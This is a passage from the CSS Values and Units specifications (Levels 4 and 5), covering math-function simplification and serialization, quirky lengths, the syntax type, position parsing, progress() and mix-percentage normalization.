  1. If *root*’s child is a number (not a percentage or dimension) return the reciprocal of the child’s value.
  2. If *root*’s child is an Invert node, return the child’s child.
  3. Return *root*.
8. If *root* is a Sum node:

  1. For each of *root*’s children that are Sum nodes, replace them with their children.
  2. For each set of *root*’s children that are numeric values with identical units, remove those children and replace them with a single numeric value containing the sum of the removed nodes, and with the same unit.

     (E.g. combine numbers, combine percentages, combine px values, etc.)
  3. If *root* has only a single child at this point, return the child. Otherwise, return *root*.

   > **Note:** Zero-valued terms cannot be simply removed from a Sum; they can only be combined with other values that have identical units. (This is because the mere presence of a unit, even with a zero value, can sometimes imply a change in behavior.)
9. If *root* is a Product node:

  1. For each of *root*’s children that are Product nodes, replace them with their children.
  2. If *root* has multiple children that are numbers (not percentages or dimensions), remove them and replace them with a single number containing the product of the removed nodes.
  3. If *root* contains only two children, one of which is a number (not a percentage or dimension) and the other of which is a Sum whose children are all numeric values, multiply all of the Sum’s children by the number, then return the Sum.
  4. If *root* contains only numeric values and/or Invert nodes containing numeric values, and multiplying the types of all the children (noting that the type of an Invert node is the inverse of its child’s type) results in a type that matches any of the types that a math function can resolve to, return the result of multiplying all the values of the children (noting that the value of an Invert node is the reciprocal of its child’s value), expressed in the result’s canonical unit.
  5. Return *root*.
10. Return *root*.

#### 10.11.  Computed Value {#css-values-4:calc-computed-value}

The computed value of a math function is its calculation tree simplified, using all the information available at computed value time. (Such as the `em` to `px` ratio, how to resolve percentages in some properties, etc.)

Where percentages are not resolved at computed-value time, they are not resolved in math functions, e.g. `calc(100% - 100% + 1px)` resolves to `calc(0% + 1px)`, not to `1px`. If there are special rules for computing percentages in a value (e.g. [the `height` property](#css2:the-height-property)), they apply whenever a math function contains percentages.

The calculation tree is again simplified at used value time; with used value time information, a math function always simplifies down to a single numeric value.

> **Example:** For example, whereas `font-size` computes percentage values at computed value time so that font-relative length units can be computed, `background-position` has layout-dependent behavior for percentage values, and thus does not resolve percentages until used-value time.
>
> Due to this, `background-position` computation preserves the percentage in a `calc()` whereas `font-size` will compute such expressions directly into a length.

Given the complexities of width and height calculations on table cells and table elements, math expressions mixing both percentages and non-zero lengths for widths and heights on table columns, table column groups, table rows, table row groups, and table cells in both auto and fixed layout tables MUST be treated as if `auto` had been specified.

#### 10.12.  Range Checking {#css-values-4:calc-range}

The clamping/rounding behavior of numeric functions is, for math functions, only performed on the results of a top-level calculation. Nested math functions forming a calculation tree neither clamp nor round.

#### 10.13.  Serialization {#css-values-4:calc-serialize}

To **serialize a math function** *fn*:

1. If the root of the calculation tree *fn* represents is an unresolved numeric function that is not a math function, serialize that function as normal and return the result.
2. If the root of the calculation tree *fn* represents is a numeric value (number, percentage, or dimension), and the serialization being produced is of a computed value or later, then clamp the value to the range allowed for its context (if necessary), then serialize the value as normal and return the result.
3. If *fn* represents an infinite or NaN value:

  1. Let *s* be the string "calc(".
  2. Serialize the keyword `infinity`, `-infinity`, or `NaN`, as appropriate to represent the value, and append it to *s*.
  3. If *fn*’s type is anything other than «[ ]» (empty, representing a `<number>`), append " * " to *s*. Create a numeric value in the canonical unit for *fn*’s type (such as `px` for `<length>`), with a value of 1. Serialize this numeric value and append it to *s*.
  4. Append ")" to *s*, then return it.
4. If the calculation tree’s root node is a numeric value, or a calc-operator node, let *s* be a string initially containing "calc(".

   Otherwise, let *s* be a string initially containing the name of the root node, lowercased (such as "sin" or "max"), followed by a "(" (open parenthesis).
5. For each child of the root node, serialize the calculation tree. If a result of this serialization starts with a "(" (open parenthesis) and ends with a ")" (close parenthesis), remove those characters from the result. Concatenate all of the results using ", " (comma followed by space), then append the result to *s*.
6. Append ")" (close parenthesis) to *s*.
7. Return *s*.

To **serialize a calculation tree**:

1. Let *root* be the root node of the calculation tree.
2. If *root* is a numeric value, or a non-math function, serialize *root* per the normal rules for it and return the result.
3. If *root* is anything but a Sum, Negate, Product, or Invert node, serialize a math function for the function corresponding to the node type, treating the node’s children as the function’s comma-separated calculation arguments, and return the result.
4. If *root* is a Negate node:

  1. Let *s* be a string initially containing "(-1 * ".
  2. Serialize *root*’s child, and append it to *s*.
  3. Append ")" to *s*, then return it.
5. If *root* is an Invert node:

  1. Let *s* be a string initially containing "(1 / ".
  2. Serialize *root*’s child, and append it to *s*.
  3. Append ")" to *s*, then return it.
6. If *root* is a Sum node:

  1. Let *s* be a string initially containing "(".
  2. Sort root’s children.
  3. Serialize *root*’s first child, and append it to *s*.
  4. For each *child* of *root* beyond the first:

    1. If *child* is a Negate node, append " - " to *s*, then serialize the Negate’s child and append the result to *s*.
    2. If *child* is a negative numeric value, append " - " to *s*, then serialize the negation of *child* as normal and append the result to *s*.
    3. Otherwise, append " + " to *s*, then serialize *child* and append the result to *s*.
  5. Append ")" to *s* and return it.
7. If *root* is a Product node:

  1. Let *s* be a string initially containing "(".
  2. Sort root’s children.
  3. Serialize *root*’s first child, and append it to *s*.
  4. For each *child* of *root* beyond the first:

    1. If *child* is an Invert node, append " / " to *s*, then serialize the Invert’s child and append the result to *s*.
    2. Otherwise, append " * " to *s*, then serialize *child* and append the result to *s*.
  5. Append ")" to *s* and return it.

To **sort a calculation’s children** *nodes*:

1. Let *ret* be an empty list.
2. If *nodes* contains a number, remove it from *nodes* and append it to *ret*.
3. If *nodes* contains a percentage, remove it from *nodes* and append it to *ret*.
4. If *nodes* contains any dimensions, remove them from *nodes*, sort them by their units, ordered ASCII case-insensitively, and append them to *ret*.
5. If *nodes* still contains any items, append them to *ret* in the same order.
6. Return *ret*.

> **Example:** For example, `calc(20px + 30px)` would serialize as `calc(50px)` as a specified value, or as `50px` as a computed value.
>
> A value like `calc(20px + 0%)` would serialize as `calc(0% + 20px)`, maintaining both terms in the serialized value. (It’s important to maintain zero-valued terms, so the `calc()` doesn’t suddenly "change shape" in the middle of a transition when one of the values happens to have a zero value temporarily. This also removes the need to "pick a unit" when all the terms are zero.)
>
> A value like `calc(20px + 2em)` would serialize as `calc(2em + 20px)` as a specified value (maintaining both units as they’re incompatible at specified-value time, but sorting them alphabetically), or as something like `52px` as a computed value (`em` values are converted to absolute lengths at computed-value time, so assuming `1em` = `16px`, they combine into `52px`, which then drops the `calc()` wrapper.)

When used in non-property contexts (such as in `@font-face` descriptors, for example), math functions are simplified as if they were specified values.

See [CSSOM] for further information on serialization.

#### 10.14.  Combination of Math Functions {#css-values-4:combine-math}

Interpolation of math functions, with each other or with numeric values and other numeric-valued functions, is defined as Vresult = calc((1 - p) * VA + p * VB). (Simplification of the value might then reduce the expression to a smaller, simpler form.)

Addition of math functions, with each other or with numeric values and other numeric-valued functions, is defined as Vresult = calc(VA + VB). (Simplification of the value might then reduce the expression to a smaller, simpler form.)

### Appendix A: Coordinating List-Valued Properties {#css-values-4:linked-properties}

Some list-valued properties have coordinated effects: each item in their value list applies to a distinct effect, and corresponding entries in each property’s list all refer to the same effect. Often the coordinating values can also be specified together as a single entry in a list-valued shorthand property.

A typical example is the list-valued `background-*` properties, which can specify [multiple background image layers](#css-backgrounds-4:layering). For each property controlling how the image is sized, tiled, placed, etc., the *N*th item in its list describes some effect that applies to the *N*th background image.

A **coordinating list property group** creates a **coordinated value list**, which has, for each entry, a value from each property in the group; these are used together to define a single effect, such as a background image layer or an animation. The used coordinated value list is assembled as follows:

- The length of the coordinated value list is determined by the number of items specified in one particular coordinating list property, the **coordinating list base property**. (In the case of backgrounds, this is the `background-image` property.)
- The *N*th value of the coordinated value list is constructed by collecting the *N*th use value of each coordinating list property
- If a coordinating list property has too many values specified, excess values at the end of its list are not used.
- If a coordinating list property has too few values specified, its value list is repeated to add more used values.
- The computed values of the coordinating list properties are not affected by such truncation or repetition.

> **Note:** A shorthand that represents a coordinated value list as a single list collecting corresponding values into each item cannot represent coordinating list property longhands that have varying list lengths in their values. Thus, if any longhands have mismatched list lengths (excepting any longhands that have their initial value, and thus can be omitted from the shorthand syntax), the CSSOM representation of the shorthand’s value will return the empty string.
>
> > **Example:** In the `background` shorthand, the first value in the list combines the first values from `background-image`, 'background-position, `background-attachment`, etc; the second value combines the second values; and so on. This syntax can only represent its longhands when they have equal-length lists (or are their initial value); if the longhands are individually set to different lengths, the CSSOM representation of `background` is just `""` (the empty string).

### Appendix B: IANA Considerations {#css-values-4:iana}

#### Registration for the `about:invalid` URL scheme {#css-values-4:about-invalid}

This sections defines and registers the `about:invalid` URL, in accordance with the registration procedure defined in [RFC6694].

The official record of this registration can be found at [http://www.iana.org/assignments/about-uri-tokens/about-uri-tokens.xhtml](http://www.iana.org/assignments/about-uri-tokens/about-uri-tokens.xhtml).

| Registered Token | `invalid` |
| --- | --- |
| Intended Usage | The `about:invalid` URL references a non-existent document with a generic error condition. It can be used when a URL is necessary, but the default value shouldn’t be resolvable as any type of document. |
| Contact/Change controller | CSS WG <[www-style@w3.org](mailto:www-style@w3.org)> (on behalf of W3C) |
| Specification | [CSS Values and Units Module Level 3](#css-values-4) |

### Appendix C: Quirky Lengths {#css-values-4:deprecated-quirky-length}

When CSS is being parsed in quirks mode, **`<quirky-length>`** is a type of `<length>` that is only valid in certain properties:

- `background-position`
- `border-spacing`
- `border-top-width`
- `border-right-width`
- `border-bottom-width`
- `border-left-width`
- `border-width`
- `bottom`
- `clip`
- `font-size`
- `height`
- `left`
- `letter-spacing`
- `margin-right`
- `margin-left`
- `margin-top`
- `margin-bottom`
- `margin`
- `max-height`
- `max-width`
- `min-height`
- `min-width`
- `padding-top`
- `padding-right`
- `padding-bottom`
- `padding-left`
- `padding`
- `right`
- `text-indent`
- `top`
- `vertical-align`
- `width`
- `word-spacing`

It is *not* valid in properties that include or reference these properties, such as the `background` shorthand, or inside functional notations such as `calc()`, except that they must be allowed in `rect()` in the `clip` property.

Additionally, while `<quirky-length>` must be valid as a `<length>` when parsing the affected properties in the `@supports` rule, it is *not* valid for those properties when used in the `CSS.supports()` method.

A `<quirky-length>` is syntactically identical to a `<number-token>`, and is interpreted as a `px` length with the same value.

(In other words, Quirks Mode allows all `px` lengths in the affected properties to be written without a unit, similar to unitless zero lengths.)

---

## CSS Values and Units Module Level 5 {#css-values-5}

- **Shortname:** `css-values-5`
- **Editor's Draft:** [https://drafts.csswg.org/css-values-5/](https://drafts.csswg.org/css-values-5/)
- **Published TR:** [https://www.w3.org/TR/css-values-5/](https://www.w3.org/TR/css-values-5/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-06
- **Diff Specification Over:** [CSS Values and Units Module Level 4 (`css-values-4`)](#css-values-4)

### 1.  Introduction {#css-values-5:intro}

> **Issue:** **This is a diff spec against [CSS Values and Units Level 4](#css-values-4).**

#### 1.1.  Module Interactions {#css-values-5:placement}

This module extends [CSS-VALUES-4] which replaces and extends the data type definitions in [CSS21] sections [1.4.2.1](#css2:value-defs), [4.3](#css2:values), and [A.2](#css2:aural-intro).

### 2.  Textual Data Types {#css-values-5:textual-values}

See [CSS Values 4 § 4 Textual Data Types](#css-values-4:textual-values).

### 3.  Value Definition Syntax {#css-values-5:value-defs}

See [CSS Values 4 § 2 Value Definition Syntax](#css-values-4:value-defs).

Additionally,

1. Boolean combinations of a conditional notation. These are written using the `<boolean-expr[]>` notation, and represent recursive expressions of boolean logic using keywords and parentheses, applied to the grammar specified in brackets, e.g. `<boolean-expr[ ( &lt;media-feature&gt; ) ]>` to express media queries.

#### 3.1.  Functional Notation Definitions {#css-values-5:component-functions}

See [CSS Values 4 § 2.6 Functional Notation Definitions](#css-values-4:component-functions).

##### 3.1.1.  Commas in Function Arguments {#css-values-5:component-function-commas}

Functional notation often uses commas to separate parts of its internal grammar, and occasionally other syntax (such as `:` or `;` in `if()`). However, some functions (such as `mix()`) allow values that, themselves, could contain these argument-separating tokens. These values (currently `<whole-value>`, `<declaration-value>`, and `<any-value>`) are **free-form productions**.

To accommodate these sorts of grammars unambiguously, the free-form productions can be optionally wrapped in curly braces {}. These braces are syntactic, not part of the actual value, and only serve to explicitly indicate the bounds of the production. A free-form production can either (after optional whitespace) start with a `<{-token>`, or not:

**If it does not start with a "{" token**

: The production does not match any top-level commas or {} blocks. (The production stops parsing at that point, so the comma or {} block is matched by the next grammar term instead; probably the function’s own argument-separating comma.) Individual usages of the production can define additional tokens that are similarly restricted from matching at the top-level.

**If it does start with a "{" token**

: The production matches just the {} block that the "{" token opens. It represents the *contents* of that block, ignoring the {} block wrapper itself.

> **Note:** General restrictions defined for a particular free-form production, like `<declaration-value>` not matching `<semicolon-token>`s, apply regardless of whether it’s {}-wrapped or not.

> **Example:** For example, the grammar of the `random-item()` function is:
>
> ```
> random-item( <random-key>, [<declaration-value>?]# )
> ```
>
> The `#` indicates comma-separated repetitions, so randomly choosing between three keywords would be written as normal for functions, like:
>
> ```
> font-family: random-item(--x, serif, sans-serif, monospace);
> ```
>
> However, sometimes the values you want to choose between need to include commas. When this is the case, wrapping the values in {} allows their commas to be distinguished from the function’s argument-separating commas:
>
> ```
> font-family: random-item(--x, {Times, serif}, {Arial, sans-serif}, {Courier, monospace});
> ```
>
> This randomly chooses one of three font-family lists: either `Times, serif`, or `Arial, sans-serif`, or `Courier, monospace`.
>
> This is not all-or-nothing; you can use {} around *some* arguments that need it, while leaving others bare when they don’t need it. You are also allowed to use {} around a value when it’s not strictly required. For example:
>
> ```
> font-family: random-item(--x, {Times, serif}, sans-serif, {monospace});
> ```
>
> This represents choosing between three font-family lists: either `Times, serif`, or `sans-serif`, or `monospace`.
>
> However, this {}-wrapping is *only* allowed for some function arguments—​those defined as free-form productions. It’s not valid for any other productions; if you use {} around other function arguments, it’ll just fail to match the function’s grammar and become invalid. For example, the following is **invalid**:
>
> ```
> background-image: linear-gradient(to left, {red}, magenta);
> ```

> **Note:** Because {} wrappers are allowed even when not explicitly required, they can be used defensively around values when the author isn’t sure if they’ll end up containing commas or not, due to arbitrary substitution functions like `var()`. For example, `font-family: random-item(--x, {var(--list1)}, monospace)` will work correctly regardless of whether the `--list1` custom property contains a comma-separated list or not.

Functional notations are serialized without {} wrappers whenever possible.

The following generic productions are free-form productions:

- `<any-value>`
- `<whole-value>`
- `<declaration-value>`

For legacy compat reasons, the `<declaration-value>` defined for the fallback value of `var()` is a **non-strict free-form production**. It ignores the rules restricting what it can contain when it does not start with a "{" token: it is allowed to contain commas and {} blocks. It still follows the standard free-form production rules when it *does* start with a "{" token, however: the fallback is just the contents of the {} block, and doesn’t include the {} wrapper itself.

Other contexts *may* define that they use non-strict free-form productions, but it *should* be avoided unless necessary.

#### 3.2.  Boolean Expression Multiplier `<boolean-expr[]>` {#css-values-5:boolean}

Several contexts (such as `@media`, `@supports`, `if()`, ...) specify conditions, and allow combining those conditions with boolean logic (and/or/not/grouping). Because they use the same non-trivial recursive syntax structure, the special **`<boolean-expr>`** production represents this pattern generically.

The `<boolean-expr[]>` notation wraps another value type in the square brackets within it, e.g. <boolean[ <test> ]>, and represents that value type alone as well as boolean combinations using the `not`, `and`, and `or` keywords and grouping parenthesis. It is formally equivalent to:

```css
<boolean-expr[ <test> ]> = not <boolean-expr-group> | <boolean-expr-group>
                                            [ [ and <boolean-expr-group> ]*
                                            | [ or <boolean-expr-group> ]* ]

<boolean-expr-group> = <test> | ( <boolean-expr[ <test> ]> ) | <general-enclosed>
```

The `<boolean-expr[]>` production represents a true, false, or unknown value. Its value is resolved using 3-value Kleene logic, with top-level unknown values (those not directly nested inside the grammar of another <boolean-expr[]>) resolving to false unless otherwise specified; see [Appendix B: Boolean Logic](#css-values-5:boolean-logic) for details.

> **Example:** For example, the `@container` rule allows a wide variety of tests: including size queries, style queries, and scroll-state queries. All of these are arbitrarily combinable with boolean logic. Using `<boolean-expr[]>`, the grammar for an `@container` query could be written as:
>
> ```css
> <container-query> = <boolean-expr[ <cq-test> ]>
> <cq-test> = (<size-query>) | style( <style-query> ) | scroll-state( <scroll-state-query> )
> <size-query> = <boolean-expr[ ( <size-feature> ) ]> | <size-feature>
> <style-query> = <boolean-expr[ ( <style-feature> ) ]> | <style-feature>
> <scroll-state-query> = <boolean-expr[ ( <scroll-state-feature> ) ]> | <scroll-state-feature>
> ```

The `<general-enclosed>` branch of the logic allows for future compatibility—​unless otherwise specified new expressions in an older UA will be parsed and considered “unknown”, rather than invalidating the production. For consistency with that allowance, the `<test>` term in a `<boolean-expr[]>` should be defined to match <general-enclosed>.

#### 3.3.  Specifying CSS Syntax in CSS: the `<syntax>` type {#css-values-5:css-syntax}

Some features in CSS, such as the `attr()` function or registered custom properties, allow you to specify how *another* value is meant to be parsed. This is declared via the `<syntax>` production, which resembles a limited form of the CSS value definition syntax used in specifications to define CSS features, and which represents a syntax definition:

```css
<syntax> = '*' | <syntax-component> [ <syntax-combinator> <syntax-component> ]* | <syntax-string>
<syntax-component> = <syntax-single-component> <syntax-multiplier>?
                   | '<' transform-list '>'
<syntax-single-component> = '<' <syntax-type-name> '>' | <ident>
<syntax-type-name> = angle | color | custom-ident | image | integer
                   | length | length-percentage | number
                   | percentage | resolution | string | time
                   | url | transform-function
<syntax-combinator> = '|'
<syntax-multiplier> = [ '#' | '+' ]

<syntax-string> = <string>
```

A `<syntax-component>` consists of either a `<syntax-type-name>` between <> (angle brackets), which maps to one of the supported syntax component names, or an `<ident>`, which represents any keyword. Additionally, a <syntax-component> may contain a [multiplier](https://drafts.css-houdini.org/css-properties-values-api-1/#multipliers), which indicates a list of values.

> **Note:** This means that `<length>` and `length` are two different types: the former describes a `<length>`, whereas the latter describes a keyword `length`.

Multiple `<syntax-component>`s may be [combined](https://drafts.css-houdini.org/css-properties-values-api-1/#combinator) with a `|` `<delim-token>`, causing the syntax components to be matched against a value in the specified order.

> **Example:** ```css
> <percentage> | <number> | auto
> ```
>
> The above, when parsed as a `<syntax>`, would accept `<percentage>` values, `<number>` values, as well as the keyword `auto`.

> **Example:** ```css
> red | <color>
> ```
>
> The syntax definition resulting from the above `<syntax>`, when used as a grammar for parsing, would match an input `red` as an identifier, but would match an input `blue` as a `<color>`.

The `*` `<delim-token>` represents the universal syntax definition.

The `<transform-list>` production is a convenience form equivalent to `<transform-function>+`. Note that `<transform-list>` may not be followed by a `<syntax-multiplier>`.

Whitespace is not allowed between the angle bracket `<delim-token>`s (`<` `>`) and the `<syntax-type-name>` they enclose, nor is whitespace allowed to precede a `<syntax-multiplier>`.

> **Note:** The whitespace restrictions also apply to `<transform-list>`.

A `<syntax-string>` is a `<string>` whose value successfully parses as a `<syntax>`, and represents the same value as that <syntax> would.

> **Note:** `<syntax-string>` mostly exists for historical purposes; before `<syntax>` was defined, the `@property` rule used a `<string>` for this purpose.

##### 3.3.1.  Parsing as `<syntax>` {#css-values-5:parse-syntax}

The purpose of a `<syntax>` is usually to specify how to parse another value (such as the value of a registered custom property, or an attribute value in `attr()`). However, the generic parse something according to a CSS grammar algorithm returns an unspecified internal structure, since parse results might be ambiguous and need further massaging.

To avoid these issues and get a well-defined result, use parse with a <syntax>:

To **parse with a `<syntax>`** given a string or list or component values *values*, a `<syntax>` value *syntax*, and optionally an element *el* for context, perform the following steps. It returns either CSS values, or the guaranteed-invalid value.

1. Parse a list of component values from *values*, and let *raw parse* be the result.
2. If *el* was given, substitute arbitrary substitution functions in *raw parse*, and set *raw parse* to that result.
3. parse *values* according to *syntax*, with a `*` value treated as `<declaration-value>?`, and let *parsed result* be the result. If *syntax* used a `|` combinator, let *parsed result* be the parse result from the first matching clause.
4. If *parsed result* is failure, return the guaranteed-invalid value.
5. Assert: *parsed result* is now a well-defined list of one or more CSS values, since each branch of a `<syntax>` defines an unambiguous parse result (or the `*` syntax is unambiguous on its own).
6. Return *parsed result*.

> **Note:** This algorithm does not resolved the parsed values into computed values; the context in which the value is used will usually do that already, but if not, the invoking algorithm will need to handle that on its own.

### 4.  Extensions to Level 4 Value Types {#css-values-5:level-4-extensions}

See [CSS Values and Units Level 4](#css-values-4).

#### 4.1.  Resource Locators: the `<url>` type {#css-values-5:urls}

See [CSS Values 4 § 4.5 Resource Locators: the <url> type](#css-values-4:urls).

##### 4.1.1.  Request URL Modifiers {#css-values-5:request-url-modifiers}

**`<request-url-modifier>`**s are `<url-modifier>`s that affect the `<url>`’s resource request by applying associated URL request modifier steps. See [CSS Values 4 § 4.5.4 URL Processing Model](#css-values-4:url-processing).

This specification defines the following `<request-url-modifier>`s:

```css
<request-url-modifier> = <cross-origin-modifier> | <integrity-modifier> | <referrer-policy-modifier>
<cross-origin-modifier> = cross-origin(anonymous | use-credentials)
<integrity-modifier> = integrity(<string>)
<referrer-policy-modifier> = referrer-policy(no-referrer | no-referrer-when-downgrade | same-origin | origin | strict-origin | origin-when-cross-origin | strict-origin-when-cross-origin | unsafe-url)
```

****`<cross-origin-modifier>`** = **cross-origin**(**anonymous** | **use-credentials**)**

: The URL request modifier steps for this modifier given request *req* are:

  1. Set *req*’s mode to "cors".
  2. If the given value is `use-credentials`, set *req*’s credentials mode to "include".
  3. Otherwise, set *req*’s credentials mode to "same-origin".

****`<integrity-modifier>`** = **integrity**(`<string>`)**

: The URL request modifier steps for this modifier given request *req* are to set request’s integrity metadata to the given `<string>`.

****`<referrer-policy-modifier>`** = **referrer-policy**(**no-referrer** | **no-referrer-when-downgrade** | **same-origin** | **origin** | **strict-origin** | **origin-when-cross-origin** | **strict-origin-when-cross-origin** | **unsafe-url**)**

: The URL request modifier steps for this modifier given request *req* are to set request’s referrer policy to the `ReferrerPolicy` that matches the given value.

To **apply request modifiers from URL value** given a request *req* and a `<url>` *url*, call the URL request modifier steps for *url*’s `<request-url-modifier>`s in sequence given *req*.

#### 4.2.  2D Positioning: the `<position>` type {#css-values-5:position}

The **`<position>`** value specifies the position of an alignment subject (e.g. a background image) inside an alignment container (e.g. its background positioning area) as a pair of offsets between the specified edges (defaulting to the left and top). Its syntax is:

```css
<position> = <position-one> | <position-two> | <position-four>
<position-one> = [
  left | center | right | top | bottom |
  x-start | x-end | y-start | y-end |
  block-start | block-end | inline-start | inline-end |
  <length-percentage>
]
<position-two> = [
  [ left | center | right | x-start | x-end ] &&
  [ top | center | bottom | y-start | y-end ]
|
  [ left | center | right | x-start | x-end | <length-percentage> ]
  [ top | center | bottom | y-start | y-end | <length-percentage> ]
|
  [ block-start | center | block-end ] &&
  [ inline-start | center | inline-end ]
|
  [ start | center | end ]{2}
]
<position-four> = [
  [ [ left | right | x-start | x-end ] <length-percentage> ] &&
  [ [ top | bottom | y-start | y-end ] <length-percentage> ]
|
  [ [ block-start | block-end ] <length-percentage> ] &&
  [ [ inline-start | inline-end ] <length-percentage> ]
|
  [ [ start | end ] <length-percentage> ]{2}
]
```

If only one value is specified (`<position-one>`), the second value is assumed to be `center`.

If two values are given (`<position-two>`), a `<length-percentage>` as the first value represents the horizontal position as the offset between the left edges of the alignment subject and alignment container, and a <length-percentage> as the second value represents the vertical position as an offset between their top edges.

If both keywords are one of `start` or `end`, the first one represents the block axis and the second the inline axis.

> **Note:** A pair of axis-specific keywords can be reordered, while a combination of keyword and length or percentage cannot. So `center left` or `inline-start block-end` is valid, while `50% left` is not. `start` and `end` aren’t axis-specific, so `start end` and `end start` represent two different positions.

If four values are given (`<position-four>`) then each `<length-percentage>` represents an offset between the edges specified by the preceding keyword. For example, `background-position: bottom 10px right 20px` represents a `10px` vertical offset up from the bottom edge and a `20px` horizontal offset leftward from the right edge.

Positive values represent an offset *inward* from the edge of the alignment container. Negative values represent an offset *outward* from the edge of the alignment container.

> **Example:** The following declarations give the stated (horizontal, vertical) offsets from the top left corner:
>
> ```
> background-position: left 10px top 15px;   /* 10px, 15px */
> background-position: left      top     ;   /*  0px,  0px */
> background-position:      10px     15px;   /* 10px, 15px */
> background-position: left          15px;   /*  0px, 15px */
> background-position:      10px top     ;   /* 10px,  0px */
> ```

> **Example:** `<position>`s can also be relative to other corners than the top left. For example, the following puts the background image 10px from the bottom and 3em from the right:
>
> ```
> background-position: right 3em bottom 10px
> ```

The computed value of a `<position>` is a pair of offsets (horizontal and vertical), each given as a computed `<length-percentage>` value, representing the distance between the left edges and top edges (respectively) of the alignment subject and alignment container.

****`<length-percentage>`****

: A `<length-percentage>` value specifies the size of the offset between the specified edges of the alignment subject and alignment container.

  For example, for `background-position: 2cm 1cm`, the top left corner of the background image is placed 2cm to the right and 1cm below the top left corner of the background positioning area.

  A `<percentage>` for the horizontal offset is relative to (*width of alignment container* - *width of alignment subject*). A <percentage> for the vertical offset is relative to (*height of alignment container* - *height of alignment subject*).

  > **Example:** For example, with a value pair of `0% 0%`, the upper left corner of the alignment subject is aligned with the upper left corner of the alignment container A value pair of `100% 100%` places the lower right corner of the alignment subject in the lower right corner of the alignment container. With a value pair of `75% 50%`, the point 75% across and 50% down the alignment subject is to be placed at the point 75% across and 50% down the alignment container.
  >
  > 
  >
  > Diagram of the meaning of `background-position: 75% 50%`.

****top** **right** **bottom** **left****

: Offsets the top/left/right/bottom edges (respectively) of the alignment subject and alignment container by the specified amount (defaulting to `0%`) in the corresponding axis.

****y-start** **y-end** **x-start** **x-end****

: Computes the same as the physical edge keyword corresponding to the start/end side in the y/x axis.

****block-start** **block-end** **inline-start** **inline-end****

: Computes the same as the physical edge keyword corresponding to the start/end side in the block/inline axis.

****center****

: Computes to a `50%` offset in the corresponding axis.

Unless otherwise specified, the flow-relative keywords are resolved according to the writing mode of the element on which the value is specified.

> **Note:** The `background-position` property also accepts a three-value syntax. This has been disallowed generically because it creates parsing ambiguities when combined with other length or percentage components in a property value.

> **Issue:** Need to define how this syntax would expand to the longhands of `background-position` if e.g. `var()` is used for some (or all) of the components. [[Issue #9690]](https://github.com/w3c/csswg-drafts/issues/9690)

##### 4.2.1.  Parsing `<position>` {#css-values-5:position-parsing}

When specified in a grammar alongside other keywords, `<length>`s, or `<percentage>`s, `<position>` is *greedily* parsed; it consumes as many components as possible.

> **Example:** For example, `transform-origin` defines a 3D position as (effectively) `<position> <length>?`. A value such as `left 50px` will be parsed as a 2-value `<position>`, with an omitted z-component; on the other hand, a value such as `top 50px` will be parsed as a single-value <position> followed by a `<length>`.

##### 4.2.2.  Serializing `<position>` {#css-values-5:position-serialization}

When serializing the specified value of a `<position>`:

**If only one component is specified:**

: - The implied `center` keyword is added, and a 2-component value is serialized.

**If two components are specified:**

: - Keywords are serialized as keywords.
  - `<length-percentage>`s are serialized as <length-percentage>s.
  - Components are serialized horizontal first, then vertical.

**If four components are specified:**

: - Keywords and offsets are both serialized.
  - Components are serialized horizontal first, then vertical; alternatively block-axis first, then inline-axis.

> **Note:** `<position>` values are never serialized as a single value, even when a single value would produce the same behavior, to avoid causing parsing ambiguities in some grammars where a <position> is placed next to a `<length>`, such as `transform-origin`.

The computed value of a `<position>` is serialized as a pair of `<length-percentage>`s representing offsets from the left and top edges, in that order.

##### 4.2.3.  Combination of `<position>` {#css-values-5:combine-positions}

Interpolation of `<position>` is defined as the independent interpolation of each component (x, y) normalized as an offset from the top left corner as a `<length-percentage>`.

Addition of `<position>` is likewise defined as the independent addition each component (x, y) normalized as an offset from the top left corner as a `<length-percentage>`.

### 5.  Interpolation Progress Calculations: the `progress()` notation {#css-values-5:progress}

The **progress()** functional notation represents the proportional distance of a given value (the **progress value**) from one value (the **progress start value**) to another value (the **progress end value**), each represented as a calculation. It is a math function, and can be input into other calculations such as a math function or a mix notation. The syntax of `progress()` is:

```css
<progress()> = progress(no-clamp? <calc-sum>, <calc-sum>, <calc-sum>)
```

where the first, second, and third `<calc-sum>` values represent the progress value, progress start value, and progress end value, respectively.

If **no-clamp** is present, the `progress()` function can potentially resolve to any number; if omitted (the default), the return value is clamped to the range [0, 1].

The argument calculations can resolve to any `<number>`, `<dimension>`, or `<percentage>`, but must have a consistent type or else the function is invalid.

The result of `progress()` is a `<number>` made consistent with the consistent type of its arguments, resolved by **calculating a progress function** as follows:

**If the progress start value and progress end value are different values**

: `(progress value - progress start value) / (progress end value - progress start value)`, clamped to the [0,1] range if `no-clamp` is not specified.

**If the progress start value and progress end value are the same value**

: 0 if `no-clamp` is not specified.

  Otherwise, 0, -∞, or +∞, depending on whether progress value is equal to, less than, or greater than the shared value.

> **Issue:** Do we need a `percent-progress()` notation, or do enough places auto-convert that it’s not necessary?

> **Issue:** Should progress() functions clamp to 0-100%? [[Issue #11825]](https://github.com/w3c/csswg-drafts/issues/11825)

> **Note:** The `progress()` function is essentially syntactic sugar for a particular pattern of `calc()` notations.

### 6.  Weighted Average Notations: the *-mix() family {#css-values-5:mixing}

Several **mix notations** in CSS allow representing the weighted average of a set of values. These functional notations follow the syntactic pattern:

```css
*mix() = *mix( options? , [ value && <percentage>? ]# )
```

where the *options* can provide type-specific mixing options, and each *value* and optional `<percentage>` pair in the argument list is a **mix item** representing an input to the mix and its weight in the average.

The mix notations in CSS include:

- `calc-mix()`, for mixing `<number>`, `<length>`, `<percentage>`, `<time>`, and other dimensions representable in `calc()` expressions
- `transform-mix()`, for mixing `<transform-list>`s
- `color-mix()`, for mixing `<color>` values (see [css-color-5])
- `cross-fade()`, for mixing `<image>` values (see [css-images-4])
- `palette-mix()`, for mixing `font-palette` values (see [css-fonts-4])

#### 6.1.  Normalizing Mix Percentages {#css-values-5:mix-percentage-normalization}

If the sum of the mix percentages are greater than 100%, they are scaled down; if it is less, any remaining percentage is distributed to values whose `<percentage>` is omitted, or else assigned to a “none” type value as defined by the specific mix notation.

To **normalize mix percentages** given

- a list of mix items *items* (a value and optional percentage, each between 0% and 100% if specified)
- an optional *force normalization* flag (defaulting to false),

returning a list of mix items with normalized percentages and a “leftover” percentage:

1. Let *specified sum* be the sum of the percentages specified in *items* (clamped to 100%), or 0% if the percentages are omitted for all items.
2. For each omitted percentage in *items*, set it to `(100% - specified sum) / (number of omitted percentages)`.
3. Let *total* be the sum of the percentages of all the items.
4. If *total* is greater than 100%, or if *total* is greater than 0% and the *force normalization* flag is true, multiply every percentage in *items* by `(100% / total)`.
